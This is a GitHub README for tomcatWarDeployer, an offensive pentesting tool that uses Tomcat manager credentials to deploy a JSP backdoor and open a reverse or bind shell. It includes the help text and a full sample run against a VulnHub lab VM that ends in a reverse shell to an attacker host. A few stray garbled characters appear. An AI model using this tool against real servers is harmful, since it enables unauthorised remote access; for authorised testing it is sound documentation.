

## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

The tool offers couple of handy features - like manager's panel lookup logic, support for CVE-2007-1860 double encoding issue, CSRF handling in newer Tomcat's.

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    tomcatWarDeployer (v. 0.5)
    Apache Tomcat auto WAR deployment & launching tool
    Mariusz Banach / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server    Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit

  General options:
    -v, --verbose       Verbose mode.
    -s, --simulate      Simulate breach only, do not perform any offensive
                        actions.
    -G OUTFILE, --generate=OUTFILE
                        Generate JSP backdoor only and put it into specified
                        outfile path then exit. Do not perform any
                        connections, scannings, deployment and so on.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"

  Connection options:
    -H RHOST, --host=RHOST
                        Remote host for reverse tcp payload connection. When
                        specified, RPORT must be specified too. Otherwise,
                        bind tcp payload will be deployed listening on 0.0.0.0
    -p PORT, --port=PORT
                        Remote port for the reverse tcp payload when used with
                        RHOST or Local port if no RHOST specified thus acting
                        as a Bind shell endpoint.
    -u URL, --url=URL   Apache Tomcat management console URL. Default:
                        /manager/
    -t TIMEOUT, --timeout=TIMEOUT
                        Speciifed timeout parameter for socket object and
                        other timing holdups. Default: 10

  Payload options:
    -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
    -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
    -T TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
    -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
    -x, --unload        Unload existing JSP Application with the same name.
                        Default: no.
    -C, --noconnect     Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
    -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.
```


And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :


```
user$ python tomcatWarDeployer.py -v -x -p 4449 -H 192.168.56.102 192.168.56.100:8080

    tomcatWarDeployer (v. 0.3)
    Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz Banach / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.102:4449.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmpDhzo9I"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 547) (out= 253)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1595)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpDhzo9I
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpDhzo9I"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 192.168.56.102:4449
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Adding 'X-Pass: oHI9mPB0mOnZ' header for shell functionality authentication.
DEBUG: Incoming client: 192.168.56.100:54251
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'oHI9mPB0mOnZ'
DEBUG: Connected with the shell: tomcat7@canyoupwnme
jh
tomcat7@canyoupwnme $ id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

tomcat7@canyoupwnme $ exit

```

The program will set-up a local listener for reverse-shell connection on the 192.168.56.102:4449 host (local host) as in the example above. Then, after invoking JSP Backdoor it will automatically connect with the local listener, resulting in shell being popped up. One can also skip `-H` parameter in order to go with _bind shell_ functionality, whereas rather then setting local listener - the program will go and connect with remotely listening bind-shell.
i
Finally, the above invocation will result in the following JSP application accessible remotely via WEB:

i



As one can see, there is password needlijked for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.


Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.

That would be all I guess. 

### TESTED
* Apache Tomcat/5.5.35
* Apache Tomcat/6.?
* Apache Tomcat/7.0.52
* Apache Tomcat/7.0.56
* Apache Tomcat/8.0.33


### CHANGELOG
* 19.07.16: Version 0.3: Added bind-shell & Reverse-shell functionality to provide user with direct access to the shell.
* 12.09.16: Version 0.3.3: Added support for Tomcat 5 interface
* 21.12.17: Quick fix for the http/https issue and avoiding SSL certificate validation.
* 04.05.18: Enhanced a bit web interface, added colors to shell prompt and improved support for Windows shell loop.
* 31.08.18: Added support for CSRF and JSESSIONID handling in Tomcat 7+ versions and for CVE-2007-1860 - you can check how it works automatically out-of-the-box on [PentesterLab](https://pentesterlab.com/exercises/cve-2007-1860)


### TODO
* ~~Implement bind & reverse tcp payload functionality as well as some pty to interact with it~~
* ~~Finish implementing noconnect and connect functionality~~
* Implement sort of communication authentication and encryption/encoding, to prevent flow of plain-text data through the wire/ether
* Test it on ~~tomcat5~~, ~~tomcat8~~


---

### ☕ Show Support ☕

This and other projects are outcome of sleepless nights and **plenty of hard work**. If you like what I do and appreciate that I always give back to the community,
[Consider buying me a coffee](https://github.com/sponsors/mgeeky) _(or better a beer)_ just to say thank you! 💪 

---

### Author

```   
   Mariusz Banach / mgeeky, 21
   <mb [at] binary-offensive.com>
   (https://github.com/mgeeky)
```
